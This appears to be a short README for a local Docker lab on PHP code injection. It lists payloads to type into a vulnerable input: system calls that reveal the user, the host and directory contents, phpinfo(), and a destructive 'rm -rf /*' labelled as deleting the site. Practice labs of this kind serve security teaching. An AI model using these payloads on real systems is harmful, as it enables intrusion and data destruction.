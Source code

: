 # PHP code injection

#

start
```bash
docker-compose up -d 
```

then visit http://localhost


try this out, at input

```bash
system("whoami")
#
gethostbyname($_SERVER['SERVER_NAME'])
#
phpinfo()
#
system('id')
#
system("ls -l /")
#
system("hostname -I")
# delete site :)
system("rm -rf /*")
```
